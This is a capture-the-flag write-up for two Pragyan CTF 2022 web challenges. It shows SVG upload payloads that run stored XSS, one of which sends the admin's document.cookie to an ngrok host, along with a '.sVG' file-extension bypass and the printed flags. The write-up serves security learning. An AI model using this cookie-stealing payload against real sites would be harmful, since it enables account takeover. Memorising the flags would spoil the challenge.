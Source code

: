 ## Pragyan CTF 2022 - Web Challenge

> Chall Name : Excess Cookie V1 

> Description : You need to get logged in as admin to complete this challenge.

On visiting the challenge link,it shows normal login and register page.Created the user account and get logged in as normal user.
In the profile page

![Screenshot](/sreenshot1.png "Screenshot")

It has the image uploading functionality and i tried to popup the XSS using SVG

> Scalable Vector Graphics(SVG) is an XML-based vector image format for two-dimensional graphics with support for interactivity and animation.

It was common payload used for fire the XSS using SVG,Here is the payload!!
```

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
   alert(1);
   </script>
</svg>

```

Here,the website having another functionality which was report the user.If i report any user admin will look into that user profile.
So,What i done was,

Open the terminal and start python http server and open another tab and start the ngrok with the port which is used for python http server

![Screenshot](/screensho2.png "Screenshot")

Alter the payload like this, 

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
var i=new Image;
i.src="http://8eb8-59-98-37-253.ngrok.io/?"+document.cookie;
   
   </script>
</svg>
```
And upload it as the profile picture,after that copy the userid and report it to the admin.
And the ADMIN cookie stealed!!

![Screenshot](/admincookie.png "Screenshot")

Change auth cookie to this admin cookie, We found the FLAG !!

```
 p_ctf{x33_a4d_svg_m4k3s_b3st_p41r} 
```

> Chall Name : Excess Cookie V2

> Description : Last challenge vulnerabilities are fixed. Try to solve this.

Same as per first challenge,but svg extension was not accepted.
So,there was a way for bypassing it by renaming the extension as "filename.sVG" and uploaded this ,the site accpeted this svg and XSS fired!!!

There was no change in the payload ,using the same steps what i have done in V1 is enough to get the admin cookie

```
 p_ctf{x33_a4d_svg_m4k3s_b3st_p41r_on1y_w1th_http_0nly} 
```




